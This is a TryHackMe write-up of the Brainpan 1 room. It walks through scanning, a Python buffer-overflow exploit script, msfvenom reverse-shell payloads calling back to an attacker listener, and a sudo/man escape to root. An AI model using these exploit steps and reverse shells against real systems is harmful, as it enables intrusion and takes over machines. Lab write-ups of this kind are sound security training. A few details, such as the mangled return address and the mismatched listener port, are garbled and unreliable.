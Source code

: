 ```yaml
---
title: "Brainpan 1 Writeup THM"
description: "My writeup of the TryHackMe room [Brainpan 1](https://tryhackme.com/room/brainpan)"
date: 2024-01-04
image: https://raw.githubusercontent.com/Blueaulo/Brainpan1-writeup-THM/main/754f5e1d-ea90-41d9-9bdf-c35333bf9929_Export-364cf768-db35-42c3-9c8f-01faddec3169/Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled.png
math:
license:
hidden: false
comments: true
draft: false
tags:
    - Windows
    - Privilege Escalation
    - Buffer Overflow
categories:
    - Room
    - Hard
---
```


I am going to start with a nmap scan:

```bash
nmap 10.10.143.30

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-03 12:34 EST
Nmap scan report for 10.10.143.30
Host is up (0.058s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT      STATE SERVICE
9999/tcp  open  abyss
10000/tcp open  snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 7.40 seconds
```

```bash
9999/tcp  open  abyss?
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)
```

Port 9999 contains the program:

```bash
nc 10.10.143.30 9999
_|                            _|
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|
                                            _|

[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD
```

And 10000 contains a http server:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Brainpan1-writeup-THM/main/754f5e1d-ea90-41d9-9bdf-c35333bf9929_Export-364cf768-db35-42c3-9c8f-01faddec3169/Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled.png)

The site doesn’t tell us much, but I used ffuf for enumerating the subdirectories:

```bash
ffuf -u http://10.10.143.30:10000/FUZZ -w /usr/share/wordlists/dirb/big.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.143.30:10000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

bin                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 65ms]
```

He found the bin directory, which contains the exe!

I moved the exe in my windows machine with Immunity Debugger and mona installed.

And I started the server:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Brainpan1-writeup-THM/main/754f5e1d-ea90-41d9-9bdf-c35333bf9929_Export-364cf768-db35-42c3-9c8f-01faddec3169/Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled%201.png)

I will use this code for getting a reverse shell:

```bash
import socket

ip = "10.10.6.37"
port = 9999

offset = 0
overflow = "A" * offset
retn = ""
padding = "\x90" * 16
payload = ""
postfix = ""

buffer =  overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

With 600 bytes the server crushes.

So I am going to use metasploit to create a payload:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
```

And I got the offset using mona:

```bash
!mona findmsp -distance 5000
```

![Untitled](https://raw.githubusercontent.com/Blueaulo/Brainpan1-writeup-THM/main/754f5e1d-ea90-41d9-9bdf-c35333bf9929_Export-364cf768-db35-42c3-9c8f-01faddec3169/Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled%202.png)

Now I can put the offset in the offset variable inside the script.

I am going to start searching for the bad characters:

Using a payload with all the characters and compare it with mona we get this:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Brainpan1-writeup-THM/main/754f5e1d-ea90-41d9-9bdf-c35333bf9929_Export-364cf768-db35-42c3-9c8f-01faddec3169/Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled%203.png)

After that we search for the jmp:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Brainpan1-writeup-THM/main/754f5e1d-ea90-41d9-9bdf-c35333bf9929_Export-364cf768-db35-42c3-9c8f-01faddec3169/Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled%204.png)

We need to put this in the retn variable of the script: \zf3\x12\x17\x31 (It is reversed because of the little eldiana rchitecture, which x86 CPUs have.)

Then we generate our payload:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.18.20.116 LPORT=4444 EXITFUNC=thread -b "\x00\x01\x02\x03\x04\x06\x07" -f c
```

And put it in the code.

And now if we run the code we should have a shell:

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.6.37] 49292
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop>
```

Now I am just going to change the ip of the script and put the one of the machine, and we should have a shell in the remote server:

- note, i have used another msfvenom payload for this one:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.18.20.116 LPORT=4444 EXITFUNC=thread -b "\x00\x01\x02\x03\x04\x06\x07" -f c
```

```bash
nc -lvnp 4555
listening on [any] 4555 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.143.30] 41139
ls
checksrv.sh
web
python -c 'import pty;pty.spawn("/bin/bash")'
puck@brainpan:/home/puck$ sudo -l
sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
puck@brainpan:/home/puck$
```

Nice!

We can see that we can run anansi_util with root

```bash
sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

The interessing thing is the manual command, which is the man command.

```bash
sudo /home/anansi/bin/anansi_util manual /bin/sh
/usr/bin/man: manual-/bin/sh: No such file or directory
/usr/bin/man: manual_/bin/sh: No such file or directory
No manual entry for manual
WARNING: terminal is not fully functional
-  (press RETURN)
DASH(1)                   BSD General Commands Manual                  DASH(1)

NAME
     dash — command interpreter (shell)

SYNOPSIS
     dash [-aCefnuvxIimqVEb] [+aCefnuvxIimqVEb] [-o option_name]
          [+o option_name] [command_file [argument ...]]
     dash -c [-aCefnuvxIimqVEb] [+aCefnuvxIimqVEb] [-o option_name]
          [+o option_name] command_string [command_name [argument ...]]
     dash -s [-aCefnuvxIimqVEb] [+aCefnuvxIimqVEb] [-o option_name]
          [+o option_name] [argument ...]

DESCRIPTION
     dash is the standard command interpreter for the system.  The current
     version of dash is in the process of being changed to conform with the
     POSIX 1003.2 and 1003.2a specifications for the shell.  This version has
     many features which make it appear similar in some respects to the Korn
     shell, but it is not a Korn shell clone (see ksh(1)).  Only features des‐
     ignated by POSIX, plus a few Berkeley extensions, are being incorporated
     into this shell.  This man page is not intended to be a tutorial or a
     complete specification of the shell.

 Manual page sh(1) line 1 (press h for help or q to quit)!/bin/sh
!/bin/sh
# whoami
whoami
root
```

And just like that we got a root shell!
